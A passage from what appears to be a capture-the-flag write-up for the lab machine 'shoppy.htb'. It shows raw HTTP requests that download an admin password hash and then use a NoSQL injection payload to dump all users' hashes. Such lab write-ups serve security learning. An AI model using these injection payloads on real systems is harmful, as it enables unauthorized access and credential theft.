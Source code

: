 The download of the `admin` hash looks like this.

### request
```http
GET /exports/export-search.json HTTP/1.1
Host: shoppy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shoppy.htb/admin/search-users?username=admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX19FvvahQ%2B7ZEj%2FXSmcM95cOuWbQZOK%2BieIiFaolCJmdiE%2BF%2FdnL%2FRcwtHWHNQ1Ylydafx1MbTgo%2Bw%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX19Mz5pAVIF%2FfhAv56FzvcYku%2BI0AI6QdKI%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX1%2BmZVS906gLD7DEiyvYL237LlAXC1qnJns%3D; rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2FGU%2BjXzsZd2y0qidarEHYAs6%2Bm4sIgmDyAMSvmUlHELYFlTFUaP5dT; rl_trait=RudderEncrypt%3AU2FsdGVkX1%2FJkvUtbKiJvcGDtYg6d4qCJmF%2BU3QwlZA%3D; connect.sid=s%3AqWc6ShfgWwKRQfALZ5HsMWE0xgqktPrd.LvmgVhuX5AmOGVKLLonGH%2BPW7YT84LpkkPxKyEktP2M
Connection: close
```

### response
```http
HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Sat, 12 Nov 2022 21:02:07 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 101
Connection: close
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Sat, 12 Nov 2022 20:59:58 GMT
ETag: W/"65-1846da45c4e"

[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"}]
```

We now want to get all available hashes. Therefore we do the same kind of `NoSQL` injection like we did when bypassing the login page.

### request all user details
payload: `admin'||'a'=='a`
```http
GET /admin/search-users?username=admin'||'a'%3d%3d'a HTTP/1.1
Host: shoppy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shoppy.htb/admin/search-users
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX19FvvahQ%2B7ZEj%2FXSmcM95cOuWbQZOK%2BieIiFaolCJmdiE%2BF%2FdnL%2FRcwtHWHNQ1Ylydafx1MbTgo%2Bw%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX19Mz5pAVIF%2FfhAv56FzvcYku%2BI0AI6QdKI%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX1%2BmZVS906gLD7DEiyvYL237LlAXC1qnJns%3D; rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2FGU%2BjXzsZd2y0qidarEHYAs6%2Bm4sIgmDyAMSvmUlHELYFlTFUaP5dT; rl_trait=RudderEncrypt%3AU2FsdGVkX1%2FJkvUtbKiJvcGDtYg6d4qCJmF%2BU3QwlZA%3D; connect.sid=s%3AqWc6ShfgWwKRQfALZ5HsMWE0xgqktPrd.LvmgVhuX5AmOGVKLLonGH%2BPW7YT84LpkkPxKyEktP2M
Connection: close

```